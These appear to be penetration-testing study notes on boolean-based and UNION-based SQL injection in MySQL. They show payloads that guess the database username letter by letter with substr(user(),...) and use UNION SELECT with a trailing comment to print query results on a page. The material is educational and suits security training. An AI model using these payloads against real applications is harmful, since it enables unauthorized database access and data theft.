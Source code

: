 ### =&gt; Boolean Based SQLi

Once penetration testers find a way to tell when a condition is true or false, they can ask the database some simple True/False questions:

* Is the first letter of the username 'a'?
* Does this database contain three tables?
* ...

We can use two MySQL functions: `user()` and `substring()`:

```sql
-- `user()` returns the name of the user currently using the database:
select user();

-- `substring()` returns a substring of the given argument. It takes 3 parameters:
--  - the input string
--  - the position of the substring
--  - its length

select substring('elarnsecurity', 2, 1)

-- We can use both together:
substring(user(), 1, 1);        -- it might return 'r' for 'root' user

substring(user(), 1, 1) = 'r'   -- if it returns 1 -> True; 0 -> False

-- Combining those features, we can iterate over the letters of the username by using payloads as:
-- ' or substr(user(), 1, 1) =='a
-- ' or substr(user(), 1, 1) =='b
-- when we find the first letter then we can move to the second and so on in order to guess the entire username.
```

### =&gt; UNION Based SQL Injections

Many times some of the results of a query are directly displayed on the output page. This behavior can be exploited using the UNION SQL command.

```sql
-- The following payload forces the web application to display the result of the `user()` function on the output page.

SELECT description FROM items where id='' UNION SELECT user(); -- -';

-- The comment at the end of the line prevents the following part of the original query from being parsed by the database, comments the rest from the original query.
-- The comment also contains a third dash because most of the browsers automatically remove trailing spaces in the URL so.
-- If you need to inject a comment via a GET request, you have to add a character after the trailing space of the comment*.
-- Also used if we don't want our web application to add anything in the url after our injection.
```
